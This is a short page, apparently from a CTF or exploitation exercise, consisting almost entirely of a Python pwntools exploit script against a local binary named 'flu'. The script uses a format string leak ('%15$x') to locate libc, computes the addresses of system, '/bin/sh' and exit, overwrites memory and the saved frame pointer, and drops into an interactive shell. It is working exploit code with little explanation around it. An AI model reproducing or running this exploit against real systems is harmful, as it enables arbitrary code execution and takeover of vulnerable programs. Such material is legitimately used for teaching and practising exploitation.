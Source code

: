 ```python
payload = "%15$x"

prog = os.path.abspath("./flu")

#p = remote("localhost", 8184) #if want to test on remote
p = process(prog)

print p.recv(17)    # "FormatString BUG:\n"
p.sendline(payload)


leakString = "0x" + p.recv(8)

leak = int(leakString, 16)
p.clean()

libc_start_main = leak - 0xf1
log.info("libc_start_main@libc: 0x%x" % libc_start_main)

libc_base = libc_start_main - offset___libc_start_main
system_addr = libc_base + offset_system
binsh_addr = libc_base + offset_str_bin_sh
exit_addr = libc_base + offset_exit

log.info("libc base: 0x%x" % libc_base)
log.info("system@libc: 0x%x" % system_addr)
log.info("binsh@libc: 0x%x" % binsh_addr)
log.info("exit@libc: 0x%x" % exit_addr)


print "\nSystem is writing..."
writeToEBP(p, 0x804a444, system_addr)


print "Exit is writing..."
writeToEBP(p, 0x804a448, exit_addr)

print "/bin/sh is writing..."
writeToEBP(p, 0x804a44c, binsh_addr)


modifyEBP(p)
p.clean()
print "Modifying EBP address..."

ebp = "A" * 192
ebp += "\x48\xa4\x04\x08" + "\x4c\xa4\x04\x08"

p.sendline(ebp)
p.clean()
p.sendline("exit")
p.clean()
log.success("Enjoy your shell.")
p.interactive()
```
